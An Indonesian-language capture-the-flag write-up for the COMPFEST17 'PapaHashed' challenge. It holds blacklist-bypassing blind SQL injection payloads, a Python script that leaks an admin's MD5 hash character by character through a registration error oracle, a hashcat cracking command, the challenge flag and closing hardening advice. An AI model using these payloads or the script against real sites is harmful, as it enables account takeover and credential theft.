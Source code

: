 # Write-up: PapaHashed

## Ringkasan

Target meminta kita **login sebagai `admin@ristek.com`**. Dari arsip `dist.zip` terlihat aplikasinya adalah **Node.js + PostgreSQL** dengan modul autentikasi sederhana:

* `findByEmail(email)` membangun **raw SQL**: `SELECT * FROM users WHERE email = '<email>'`.
* **Blacklist** naif (memblokir string `OR` dengan spasi, `UNION`, komentar, dll).
* Password disimpan sebagai **MD5**, dan saat login dicek `md5(input) == user.password`.
* Halaman `/dashboard` menampilkan **flag hanya bila email = `admin@ristek.com`**.

Kelemahannya: **SQL Injection di parameter email**. Kita memanfaatkannya lewat **error-based/blind** menggunakan pesan “Email already exists” pada endpoint **Register** sebagai *oracle*.

Flag akhir:

```
COMPFEST17{Ju5t_s0m3_3rr0r_b4s3d_SQL_50389de056}
```

---

## Enumerasi & Validasi SQLi

Di **/auth/register**, server akan memanggil `findByEmail(email)`. Jika kueri mengembalikan baris, UI memunculkan **“Email already exists”**. Ini bisa kita jadikan indikator TRUE/FALSE.

Blacklist hanya memblokir `OR` (dengan spasi), jadi kita bisa **menghilangkan spasi**:

```
Email: 'OR'1'='1
Password: apa saja
```

Jika muncul **“Email already exists”**, berarti injeksi mengeksekusi dan kondisi TRUE.

---

## Eksfiltrasi Hash Admin (error-based oracle)

Kita gunakan per-karakter terhadap `password` milik admin. Di PostgreSQL, `SUBSTRING(x FROM i FOR 1)` mengambil 1 karakter di posisi `i`.

Payload (posisi ke-`i`, kandidat `c`):

```
'OR(SUBSTRING((SELECT password FROM users WHERE email='admin@ristek.com') FROM i FOR 1)='c')AND'1'='1
```

* **Benar** → kueri mengembalikan baris → **“Email already exists”** (TRUE).
* **Salah** → tidak ada baris → proses register lanjut (FALSE).
* Tidak menggunakan spasi di sekitar `OR`, tidak pakai komentar — aman dari blacklist.

Ulangi `i = 1..32` dan `c ∈ 0123456789abcdef` untuk membangun 32 heksadesimal **MD5 admin**.

### Otomasi

```python
# solve.py
import requests, re

BASE = "http://ctf.compfest.id:7302"
TARGET = "admin@ristek.com"
hexchars = "0123456789abcdef"
s = requests.Session()

def is_true(payload):
    r = s.post(f"{BASE}/auth/register",
               data={"email": payload, "password": "x"},
               allow_redirects=False)
    return "Email already exists" in r.text

# sanity check
print("Injectable?", is_true("'OR'1'='1"))

hash_hex = []
for i in range(1, 33):
    for c in hexchars:
        p = f"'OR(SUBSTRING((SELECT password FROM users WHERE email='{TARGET}') FROM {i} FOR 1)='{c}')AND'1'='1"
        if is_true(p):
            hash_hex.append(c)
            print(f"[+] {i}: {c}  -> {''.join(hash_hex)}")
            break
    else:
        raise RuntimeError(f"no match at pos {i}")

admin_md5 = ''.join(hash_hex)
print("[+] admin md5:", admin_md5)
```

---

## Crack MD5 → Dapatkan Password Admin

Sesuai hint challenge (“There are online tools to crack hashes”), kirim hash ke **CrackStation** / jalankan `hashcat -m 0` dengan wordlist umum sampai mendapat plaintext.

Contoh:

```
hashcat -m 0 admin_hash.txt rockyou.txt
```

---

## Ambil Flag

Login:

```
Email   : admin@ristek.com
Password: <hasil crack MD5>
```

Buka `/dashboard`. Karena email == admin, halaman merender **flag**:

```
COMPFEST17{Ju5t_s0m3_3rr0r_b4s3d_SQL_50389de056}
```

---

## Catatan Teknis & Bypass

* **Bypass blacklist**: deteksi `OR` (dengan spasi) gagal mencegah `'OR'...` tanpa spasi.
* **Mengapa “error-based”?** Kita tidak menampilkan data langsung di halaman, tapi menggunakan **pesan error/validasi** (“Email already exists”) sebagai **oracle** untuk menilai TRUE/FALSE, sehingga bisa *leak* hash per-karakter.
* **Hardening yang benar**:

  * Selalu gunakan **parameterized query** / ORM.
  * Jangan pakai **MD5** untuk password (gunakan Argon2/bcrypt/scrypt + salt).
  * Hindari **blacklist** string; gunakan whitelist/escaping yang benar.
  * Jangan beda-bedakan pesan error berdasarkan kondisi data (hindari orakel).

---

## Kesimpulan

Dengan memanfaatkan **SQLi pada email** dan **error-based oracle** pada endpoint **Register**, kita berhasil mengekstrak **MD5 admin**, mem-crack-nya, login sebagai admin, dan memperoleh flag:

```
COMPFEST17{Ju5t_s0m3_3rr0r_b4s3d_SQL_50389de056}
```

Selesai 🎯

